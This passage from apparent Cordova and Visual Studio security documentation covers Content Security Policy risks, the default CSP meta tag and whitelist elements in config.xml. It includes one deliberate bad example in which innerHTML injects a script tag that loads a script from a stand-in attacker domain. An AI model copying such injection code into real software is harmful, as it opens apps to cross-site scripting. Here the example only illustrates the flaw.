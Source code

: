 2. Allowing **JavaScript and CSS content from different origins** poses the next largest risk. Disabling inline script reduces the chances of attack, but even with inline script disabled you can still add a script tag with a href to an external source. The same innerHTML mistake can then lead to a similar vulnerability. While this is obviously true for JavaScript, CSS also poses a risk because directives like expression() and url('javascript:...'). You can loosen this restriction by listing only very specific domains that you trust but exercise caution when doing so. Tweaking the previous example slightly we get:

    ```javascript
    // This is also bad
    textInput = "<div id='hack-otuput'></div><script src='http://iliketohackthings.com/mybadscript.js'></script>"
    document.getElementById("output-div").innerHTML = textInput;
    ```

3. **eval()** along with related features like "new Function" also pose a risk but these are reduced if the inline and same origin restrictions are left in place. Further, eval is used by a number of JavaScript frameworks for optimization purposes so while this is the default it can become quite problematic if left in place. If your app and all associated frameworks do not make use of eval, you should disable it. Otherwise avoid using eval in your own code unless you really know exactly what you are doing.

Note that none of these rules apply to images or other static content. 

The default CSP policy in Visual Studio and Cordova templates is a solid starting point. It allows eval(), but keeps the inline script and same origin restrictions in place.

```
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self' data: gap: https://ssl.gstatic.com 'unsafe-eval'; 
               style-src 'self' 'unsafe-inline'; 
               media-src *">
```

See the **[Cordova whitelist and Content Security Policy guide](whitelists.md)** for additional details on configuring a CSP policy to meet your needs.

## Manage your whitelists
When using Cordova 5+, you will need to install a whitelist plugin to enable access to external network resources on Android. iOS and Windows 10 also supports the features in the whitelist plugin but as of 6.0.0 they are provided by the iOS platform itself. Regardless, the new whitelist plugin that is pre-installed in new Cordova projects either created from the CLI or Visual Studio actually introduce three separate elements designed to enable more discrete control that was possible in the past.

The **access** element from previous versions of Cordova returns but only controls where your app can make XHR requests or access other external content from a web page for Android and iOS. It no longer controls whether you can navigate to a different domain (such as hosted content). A new **allow-navigation** element has been added that then enables you to specify where the app can navigate instead. Finally, a new **allow-intent** element has been introduced specifically designed to control Android intents.

The base Visual Studio and [Cordova CLI](http://aka.ms/cordova-cli) template (via the cordova create command) has a config.xml file in it that is designed to allow the app to make external requests anywhere, allows a specific subset of intents, and prevents the WebView in the Cordova app to navigate anywhere other than local content.
